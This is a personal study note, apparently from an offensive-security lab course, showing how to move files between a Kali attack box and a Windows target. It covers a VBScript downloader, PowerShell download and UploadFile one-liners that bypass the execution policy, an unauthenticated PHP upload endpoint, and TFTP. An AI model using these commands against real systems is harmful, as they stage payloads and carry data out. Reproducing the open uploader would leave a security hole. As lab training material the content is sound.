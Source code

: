 16.2.5.1

# 16.2.5.1 
## 16.2.5.1.1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.

Here is a VBScript script (wget.vbs) on the Windows client that acts as a simple HTTP downloader
```vbscript
strUrl = WScript.Arguments.Item(0) 
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
Err.Clear 
Set http = Nothing 
Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
http.Open "GET", strURL, False 
http.Send 
varByteArray = http.ResponseBody 
Set http = Nothing 
Set fs = CreateObject("Scripting.FileSystemObject") 
Set ts = fs.CreateTextFile(StrFile, True) 
strData = "" 
strBuffer = "" 
For lngCounter = 0 to UBound(varByteArray) 
ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
Next 
ts.Close 
```

Next we will run it using cscript. It will download the evil.txt file from Kali's web document root.
```
C:\Users\Administrator\Desktop>cscript wget.vbs http://192.168.119.214/evil.txt evil.txt                        
Microsoft (R) Windows Script Host Version 5.812                              
Copyright (C) Microsoft Corporation. All rights reserved.                    C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa                                                                                                                                      C:\Users\Administrator\Desktop> 
```


## 16.2.5.1.2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.

### Non-interactive file transfer from Kali to Windows
First, allow PowerShell scripts to run (it is restricted by default).
```plaintext
C:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
```

Download the evil.txt file from Kali to Windows.
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'evil.exe') 
```

OR we can execute the script without saving it to disk!
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'new-exploit.txt')                                                           C:\Users\Administrator\Desktop>more new-exploit.txt                          Muhahhahahaahahhahaa
```

### Download from  Windows to Kali (or upload from Windows to Kali)
On Kali, create a powershell script and save it to /var/www/html. This script allows anyone that interacts with upload.php to upload files to /var/www/uploads directory.
```plaintext
kali@kali:~$ cat /var/www/html/upload.php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
kali@kali:~$
```

Then, create an uploads folder, modify its permissions so that user www-data can write to it.
```plaintext
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ dir
html  uploads
kali@kali:/var/www$ ls
html  uploads
kali@kali:/var/www$ ps -ef | grep apache
root        5395       1  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    5396    5395  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Oct  1 04:26 .
drwxr-xr-x 12 root     root     4096 May  8 08:18 ..
drwxr-xr-x  3 root     root     4096 Oct  1 04:25 html
drwxr-xr-x  2 www-data www-data 4096 Oct  1 04:26 uploads
```

On Windows, run powershell to upload the file important.txt to Kali
```
C:\Users\Administrator\Desktop>powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.214/upload.php', 'important.txt')  
```

We see that important.txt has been downloaded to Kali!
```
kali@kali:/var/www/uploads$ cat /var/www/uploads/important.txt 
Nothing important to see here.
```


## 16.2.5.1.3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet *Invoke-WebRequest* 403 was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

### Download a file from Kali
```plaintext
C:\Users\Administrator\Desktop>powershell (Invoke-WebRequest -Uri "http://192.168.119.214/evil.txt" -OutFile "evil.txt")                       
C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa 
```

### Upload a file to Kali
Didn't do this


## 16.2.5.1.4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows.

On Kali, install atftp, create a directory where it can store and serve files, update the ownership so we can write files to it, then run it as a daemon on UDP port 69.
```plaintext
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

On Windows, use the tftp -i comand
```plaintext
C:\Users\Administrator\Desktop>tftp -i 192.168.119.214 put tryharder.txt     Transfer successful: 10 bytes in 1 second(s), 10 bytes/s  
```

Confirm that the file was downloaded to Kali
```plaintext
kali@kali:/tftp$ ls -la tryharder.txt 
-rw-r--r-- 1 nobody nogroup 10 Oct  1 06:40 tryharder.txt
kali@kali:/tftp$ 
```

id: 7bbb4d0b47ea4d5cb08c8e0ac766b7ed
parent_id: ebe8592607f349d4827eec7bd3692f56
created_time: 2020-10-02T22:07:48.327Z
updated_time: 2020-10-02T22:08:08.026Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T22:07:48.327Z
user_updated_time: 2020-10-02T22:08:08.026Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1
